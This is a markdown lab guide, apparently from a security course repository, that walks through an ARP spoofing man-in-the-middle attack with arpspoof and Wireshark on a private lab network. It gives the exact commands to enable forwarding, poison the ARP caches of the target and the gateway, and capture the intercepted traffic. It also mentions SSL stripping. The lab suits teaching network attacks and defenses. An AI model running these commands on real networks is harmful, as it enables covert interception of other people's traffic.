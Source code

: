 # ARP Spoofing MITM Attack Lab

## Objective

To perform a Man-in-the-Middle (MITM) attack using ARP spoofing, enabling packet interception between a target and a gateway. Wireshark will be used to monitor the captured traffic.

---

## Tools Used

- Kali Linux (or compatible Linux VM)
- `arpspoof` (from `dsniff` package)
- Wireshark

---

## Lab Setup

- **Attacker IP (Kali)**: `10.0.2.15`
- **Target IP**: `10.0.2.3`
- **Gateway IP**: `10.0.2.1`
- **Network Interface**: `eth0`

---

## Step-by-Step Instructions

### 1. Identify Network Details

```bash
ip a         # Check your attacker IP and interface
ip route     # Identify the default gateway IP
```

### 2. Enable IP Forwarding

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

### 3. Start ARP Spoofing

#### Terminal 1 (Spoof the Target)

```bash
sudo arpspoof -i eth0 -t 10.0.2.3 10.0.2.1
```

#### Terminal 2 (Spoof the Gateway)

```bash
sudo arpspoof -i eth0 -t 10.0.2.1 10.0.2.3
```

This poisons the ARP cache of both the target and the gateway.

---

## 4. Open Wireshark

- Launch Wireshark
- Select interface `eth0`
- Start capture
- Use the filter:

```wireshark
ip.addr == 10.0.2.3
```

---

## 5. Observe Captured Traffic

- Look for intercepted HTTP, DNS, or encrypted HTTPS packets
- Traffic between the target and the gateway should now route through your machine

---

## 6. Cleanup

```bash
# Stop ARP spoofing with Ctrl+C in both terminals

# Disable IP forwarding
sudo sysctl -w net.ipv4.ip_forward=0
```

---

## Notes

- Only HTTP traffic will be fully readable unless SSL stripping is used
- MITM attacks are illegal without authorization — this should only be performed in a lab setting

---

## Key Takeaways

- ARP spoofing tricks two machines into routing traffic through you
- Wireshark is a powerful tool to observe network-level attacks
- Always restore system network settings after performing spoofing
